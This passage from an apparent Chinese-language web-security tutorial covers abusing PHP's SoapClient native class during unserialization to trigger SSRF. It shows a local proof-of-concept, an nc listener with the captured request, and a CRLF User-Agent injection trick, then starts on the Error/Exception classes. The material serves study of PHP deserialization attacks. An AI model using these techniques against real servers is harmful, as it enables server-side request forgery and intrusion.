 该内置类有一个 `__call` 方法，当 `__call` 方法被触发后，它可以发送 HTTP 和 HTTPS 请求;

**实验一下**

```php
<?php
//phpinfo();
$a = new SoapClient(null,array('location'=>'http://127.0.0.1:9001/变量', 'uri'=>'http://127.0.0.1:9001','user_agent'=>'123'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->abc();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
    
运行上面的php，然后用nc监听9001端口   
nc -l 9001
得到下面的数据，我们可以通过对User-agent的修改，通过\n来修改后续报文，来实现ssrf
    
  
    
POST /变量 HTTP/1.1
Host: 127.0.0.1:9001
Connection: Keep-Alive
User-Agent: 123
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://127.0.0.1:9001#abc"
Content-Length: 384

<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="http://127.0.0.1:9001" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:abc/></SOAP-ENV:Body></SOAP-ENV:Envelope>
```

#### 1.4.2 Error/Exception--原生类(__toString方法)

```php
Error implements Throwable {  //php7引入
	/* 属性 */
	protected string $message ;
	protected int $code ;
	protected string $file ;
	protected int $line ;
	/* 方法 */
	public __construct ( string $message = "" , int $code = 0 , Throwable $previous = null )
	final public getMessage ( ) : string
	final public getPrevious ( ) : Throwable
	final public getCode ( ) : mixed
	final public getFile ( ) : string
	final public getLine ( ) : int
	final public getTrace ( ) : array
	final public getTraceAsString ( ) : string
	public __toString ( ) : string
	final private __clone ( ) : void
}
Exception {   //php5引入
	/* 属性 */
	protected string $message ;
	protected int $code ;
	protected string $file ;
	protected int $line ;
	/* 方法 */
	public __construct ( string $message = "" , int $code = 0 , Throwable $previous = null )
	final public getMessage ( ) : string
```